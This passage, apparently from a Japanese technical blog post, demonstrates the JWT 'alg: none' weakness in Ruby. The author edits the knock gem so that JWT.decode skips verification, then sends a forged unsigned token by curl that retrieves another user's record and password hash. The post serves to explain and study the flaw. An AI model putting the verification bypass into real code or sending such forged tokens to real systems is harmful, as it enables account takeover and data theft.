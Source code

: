 を見てみると、
```
decoded_token = JWT.decode token, nil, false
```
JSONのでコード時つまりトークンの検証時に、第３引数に検証有無を指定する必要があるらしく、上記のように**false**が指定されていると検証が行われません。 

### knockの実装を確認
[https://github.com/nsarno/knock/blob/7fb00e36b8a1db188d2258eb28dbc56441385302/app/model/knock/auth_token.rb#L10:title]   
```ruby
# 10行付近
@payload, _ = JWT.decode token, decode_key, true, options.merge(verify_options)
```
knockだと**true**が指定されており、検証が必須となっている。
そのため「"alg":"none"」となっていても検証が行われていたわけです。

### knockでトークン検証なしにしてみる
ソースコードを少し変更してみて、トークンの検証が行われないようにしてみます。  
試しに第３引数を"false"に変更して、動作を確認してみる。
```ruby
$ vim vendor/bundler/ruby/2.3.0/gems/knock-2.1.1/app/model/knock/auth_token.rb

@payload, _ = JWT.decode token, decode_key, false, options.merge(verify_options) # 変更
```
再度改ざんしたリクエストを送信してみる。認証者をレスポンスで返すようにする。
```ruby
$ vim app/controllers/private_posts_controller.rb

class PrivatePostsController < ApplicationController
  include JSONAPI::ActsAsResourceController
  before_action :authenticate_user

  def index
    render :json => current_user
  end

end
```
```
curl -X "GET" "http://example.jp:3000/private-posts" -v \
-H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJleHAiOjE0OTI4NDg2MzUsInN1YiI6Nn0=." \
-H "Content-Type: application/json"

HTTP/1.1 200 OK
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Content-Type: application/json; charset=utf-8
ETag: W/"f7e6dd29a636a3d858fab2dd8c67e57d"
Cache-Control: max-age=0, private, must-revalidate
X-Request-Id: e4fdf9a4-49e7-4bff-be60-ae8351dc4483
X-Runtime: 0.004916
Transfer-Encoding: chunked

{"id":6,"password_digest":"$2a$10$2IL4VyZ2m2ojfjrWpMxiDOTL6Ctu43cm2o6423z7xCET71HtZVSRC","name":"User2","email":"user2@example.com","created_at":"2017-04-20T18:46:10.245Z","updated_at":"2017-04-20T18:46:10.245Z"}%
```
改ざんしたユーザidの情報を取得できていることが確認できる。  
